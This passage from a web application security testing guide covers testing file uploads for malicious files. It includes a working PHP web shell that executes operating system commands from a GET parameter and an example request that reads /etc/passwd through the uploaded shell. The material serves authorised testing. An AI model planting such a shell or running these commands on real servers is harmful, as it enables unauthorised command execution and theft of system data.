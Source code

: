 - Identify the file upload functionality.
- Review the project documentation to identify what file types are considered acceptable, and what types would be considered dangerous or malicious.
    - If documentation is not available then consider what would be appropriate based on the purpose of the application.
- Determine how the uploaded files are processed.
- Obtain or create a set of malicious files for testing.
- Try to upload the malicious files to the application and determine whether it is accepted and processed.

## How to Test

### Malicious File Types

The simplest checks that an application can do are to determine that only trusted types of files can be uploaded.

#### Web Shells

If the server is configured to execute code, then it may be possible to obtain command execution on the server by uploading a file known as a web shell, which allows you to execute arbitrary code or operating system commands. In order for this attack to be successful, the file needs to be uploaded inside the webroot, and the server must be configured to execute the code.

Uploading this kind of shell onto an Internet facing server is dangerous, because it allows anyone who knows (or guesses) the location of the shell to execute code on the server. A number of techniques can be used to protect the shell from unauthorised access, such as:

- Uploading the shell with a randomly generated name.
- Password protecting the shell.
- Implementing IP based restrictions on the shell.

**Remember to remove the shell when you are done.**

The example below shows a simple PHP based shell, that executes operating system commands passed to it in a GET parameter, and can only be accessed from a specific IP address:

```php
<?php
    if ($_SERVER['REMOTE_HOST'] === "FIXME") { // Set your IP address here
        if(isset($_REQUEST['cmd'])){
            $cmd = ($_REQUEST['cmd']);
            echo "<pre>\n";
            system($cmd);
            echo "</pre>";
        }
    }
?>
```

Once the shell is uploaded (with a random name), you can execute operating system commands by passing them in the `cmd` GET parameter:

`https://example.org/7sna8uuorvcx3x4fx.php?cmd=cat+/etc/passwd`
